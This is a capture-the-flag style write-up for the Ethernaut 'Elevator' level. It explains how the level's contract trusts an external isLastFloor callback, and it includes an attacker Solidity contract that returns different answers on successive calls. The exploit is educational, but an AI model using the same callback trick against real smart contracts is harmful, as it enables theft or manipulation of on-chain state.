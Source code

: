 # Elevator Ethernaut

## Goals

=> Reach the top of the building

### Hints

- Sometimes solidity is not good at keeping promises.
- This Elevator expects to be used from a Building.

- So when looking at the goTo function you see you need to fullfill two conditions at first `building.isLastFloor(_floor)` needs to return false to get into the if case then `building.isLastFloor(_floor)` needs to return true to assign the value true to `top` all of this needs to be called by a "building" so I made a contract that takes the elevator contract address as input and implements the Building interface, from that contract I can call the `elevator.goTo()` with an arbitrary uint, which then calls back to my hack contract which will set the number to 0 (my floorCounter) which then gets increased by one `floorCounter++;`, the 0 gets evaluated to false through my ternary operator, the second time `building.isLastFloor(_floor)` is getting called we assign the now increased floorCounter as the new number so now it will return true thus top = true

### Attacker Contract

```solidity
contract Hack {
    Elevator public elevator;
    Building public building;
    uint private floorCounter;

    constructor(address _elevatorAddress) {
        building = Building(address(this));
        elevator = Elevator(_elevatorAddress);
    }

    function isLastFloor(uint _floor) external returns (bool) {
        _floor = floorCounter;
        floorCounter++;
        return _floor == 0 ? false : true;
    }

    function attack() external {
        elevator.goTo(1234);
    }
}
```
